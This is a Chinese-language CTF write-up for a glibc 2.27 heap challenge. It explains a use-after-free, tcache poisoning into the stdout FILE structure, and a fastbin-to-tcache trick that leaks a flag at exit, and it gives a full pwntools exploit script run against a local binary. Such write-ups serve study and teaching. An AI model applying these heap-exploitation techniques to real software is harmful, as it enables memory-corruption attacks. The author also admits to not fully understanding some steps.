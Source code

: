 # leak  
参考了xia0ji233师傅的WP https://www.52pojie.cn/thread-1705930-1-1.html，复现了好久做出来了（其实现在还是有点一知半解）。  
首先需要注意此题libc版本为2.27 1.6，此版本的tcache中会有双指针，而如果是2.27 1.4则没有双指针。 
保护全开，而且没有show函数。  
但是会把flag读取到一个堆块中，要想办法打印出来。  
![](./pics/putflag.png)  
将stdout结构体修改后可以在调用puts或者printf时输出指定内容，然而这道题里没有这两个函数，但是程序在exit时会将剩余内容输出（貌似是这个机制）。  
我们希望得到的stdout是类似这样的结构。
![](./pics/stdout.png)  
```
pwndbg> p/x *stdout
$1 = {
  _flags = 0xfbad1800,
  _IO_read_ptr = 0x0,   /* Current read pointer */
  _IO_read_end = 0x0,   /* End of get area. */
  _IO_read_base = 0x0,  /* Start of putback+get area. */
  _IO_write_base = 0x5632f5c5f250,  /* Start of put area. */
  _IO_write_ptr = 0x5fffffffffff,   /* Current put pointer. */
  _IO_write_end = 0x0,  /* End of put area. */
  _IO_buf_base = 0x0,   /* Start of reserve area. */
  _IO_buf_end = 0x0,    /* End of reserve area. */
  _IO_save_base = 0x0,  
  _IO_backup_base = 0x0,    
  _IO_save_end = 0x0,
  _markers = 0x0,
  _chain = 0x7f8499deba00,
  _fileno = 0x1,
  _flags2 = 0x0,
  _old_offset = 0xffffffffffffffff,
  _cur_column = 0x0,
  _vtable_offset = 0x0,
  _shortbuf = {0x0},
  _lock = 0x7f8499ded8c0,
  _offset = 0xffffffffffffffff,
  _codecvt = 0x0,
  _wide_data = 0x7f8499deb8c0,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  __pad5 = 0x0,
  _mode = 0x0,
  _unused2 = {0x0 <repeats 20 times>}
}
```
需要将flag改为0xfbad1800，_IO_write_base改为读取内容起始位置，_IO_write_ptr为读取终止位置。  
修改完成功程序运行到exit时便会从_IO_write_base开始逐个字节输出直到_IO_write_ptr或者打印到不可打印区域停止。  
## 题目分析
![](./pics/main.png)  
![](./pics/add.png)  
![](./pics/del.png)  
![](./pics/edit.png)  
发现free后没有清空，存在UAF，上面说了是2.27 1.6的版本，可以先从unsortbin中获得libc地址，用tcache投毒在stdout结构体内开辟堆。  
为了得到unsortedbin首先需要填满tcache，这里构造了两个0xc0互刷，再构造两个0x60的chunk3和4，此时chunk1覆盖chunk3和chunk4，使chunk4的size可以被随意修改。  
```
    add(0,0xb0)
    add(1,0xb0)
    add(2,0x50)
    add(14,0xb0)
    add(15,0x200)
    for i in range(3):
        free(0)
        edit(0,p64(0)*2)
        free(1)
        edit(1,p64(0)*2)
    free(0)
    free(1)
    add(3,0x50)
    add(4,0x50)
```
```
0x5618e48143a0: 0x00005618e51052a0 0xb0 0x00005618e5105360 0xb0
0x5618e48143b0: 0x00005618e5105420 0x50 0x00005618e5105360 0x50
0x5618e48143c0: 0x00005618e51053c0 0x50 0x0000000000000000
0x5618e48143d0: 0x0000000000000000      0x0000000000000000
0x5618e48143e0: 0x0000000000000000      0x0000000000000000
0x5618e48143f0: 0x0000000000000000      0x0000000000000000
0x5618e4814400: 0x0000000000000000      0x0000000000000000
0x5618e4814410: 0x00005618e5105480 0xb0 0x00005618e5105540
```
![](./pics/bin1.png)  

将libc的低字节改成0x7c60，即stdout的地址，申请两次大小为0xc0的堆块就能实现tcache投毒。  
```
    edit(1,b'\x60\xc7')
    add(5,0xb0)
    add(6,0xb0)
    add(7,0xb0)
```
```
0x5618e48143a0: 0x00005618e51052a0 0xb0 0x00005618e5105360 0xb0
0x5618e48143b0: 0x00005618e5105420 0x50 0x00005618e5105360 0x50
0x5618e48143c0: 0x00005618e51053c0 0x50 0x00005618e51052a0 0xb0
0x5618e48143d0: 0x00005618e5105360 0xb0 0x00007f806f1ec760 0xb0
0x5618e48143e0: 0x0000000000000000      0x0000000000000000
0x5618e48143f0: 0x0000000000000000      0x0000000000000000
0x5618e4814400: 0x0000000000000000      0x0000000000000000
0x5618e4814410: 0x00005618e5105480 0xb0 0x00005618e5105540
```
![](./pics/bin2.png)  
由于还需要将一个堆地址放进stdout，接下来选择fastbin结合tcache进行攻击将堆地址放进对应位置。首先需要重新把tcache填充满，并得到一个fastbin。  
```
   free(0)
    edit(0,p64(0)*2)
    free(14)
    edit(14,p64(0)*2)
    free(0)
    edit(0,p64(0)*2)
    for i in range(3):
        free(2)
        edit(2,p64(0)*2)
        free(4)
        edit(4,p64(0)*2)
    free(2)
    edit(2,p64(0)*2)
    free(4)
```
![](./pics/bin3.png)  
先想办法让fastbin的fd指针变成libc地址，把他对应的堆放进unsortedbin就行，利用上面所说的，编辑chunk1更改chunk4的size。  
```
    edit(1,p64(0)*11+p64(0xc1))
    free(4)
```
![](./pics/bin4.png)  
需要利用到这样一个机制，当发现tcache没满并且存在fastbin时，会把fastbin放进tcache中，这个过程中会把堆地址放进fd对应的堆块中（这个过程其实还是没搞明白，还是得看源码，鼠鼠太菜了看不懂wuwuwu）。  
```
    edit(1,p64(0)*11+p64(0x61))
    edit(4,b'\x68\xc7')
    edit(7,p64(0xfbad1800)+p64(0)*4+p64(0x5fffffffffff))
    add(8,0x50)#从tcache中取出一个，这时候tcache不满了
    add(9,0x50)
```
之后只要退出程序就行，会输出来一大堆东西，可以再改一下让_IO_write_base接近flag的位置，只要输出前几个字符就行了，这题需要爆破半个字节。  
![](./pics/success.png)  
完成exp：
```
from pwn import * 
# context.log_level = 'debug' 

def add(index,size):
    p.recvuntil(b'6. exit\n')
    p.recvuntil(b'Your choice: ')
    p.sendline(b'1')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
    p.recvuntil(b'Size: ')
    p.sendline(str(size).encode())
def edit(index,content):
    p.recvuntil(b'6. exit\n')
    p.recvuntil(b'Your choice: ')
    p.sendline(b'2')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
    p.recvuntil(b'Content: ')
    p.send(content)
def free(index):
    p.recvuntil(b'6. exit\n')
    p.recvuntil(b'Your choice: ')
    p.sendline(b'3')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
def exit():
    p.recvuntil(b'6. exit\n')
    p.recvuntil(b'Your choice: ')
    p.sendline(b'6')
time=0
while 1:
    time=time+1
    print("try time:",time)
    p=process('./leak')
    elf=ELF('./leak')
    p.recvuntil(b'set up.\n')
    add(0,0xb0)
    add(1,0xb0)
    add(2,0x50)
    add(14,0xb0)
    add(15,0x200)
    for i in range(3):
        free(0)
        edit(0,p64(0)*2)
        free(1)
        edit(1,p64(0)*2)
    free(0)
    free(1)
    add(3,0x50)
    add(4,0x50)
    # gdb.attach(p)
    edit(1,b'\x60\xc7')
    add(5,0xb0)
    add(6,0xb0)
    add(7,0xb0)
    # pause()
    free(0)
    edit(0,p64(0)*2)
    free(14)
    edit(14,p64(0)*2)
    free(0)
    edit(0,p64(0)*2)
    for i in range(3):
        free(2)
        edit(2,p64(0)*2)
        free(4)
        edit(4,p64(0)*2)
    free(2)
    edit(2,p64(0)*2)
    free(4)
    # pause()
    edit(1,p64(0)*11+p64(0xc1))
    free(4)
    # pause()
    edit(1,p64(0)*11+p64(0x61))
    edit(4,b'\x68\xc7')
    edit(7,p64(0xfbad1800)+p64(0)*4+p64(0x5fffffffffff))
    add(8,0x50)
    add(9,0x50)
    # pause()
    # gdb.attach(p)

    edit(7,p64(0xfbad1800)+p64(0)*3+b'\x50\xf2')
    exit()
    recvthing=p.recv(100)
    if b'flag' in recvthing:
        print('flag:[',recvthing,']')
        break

```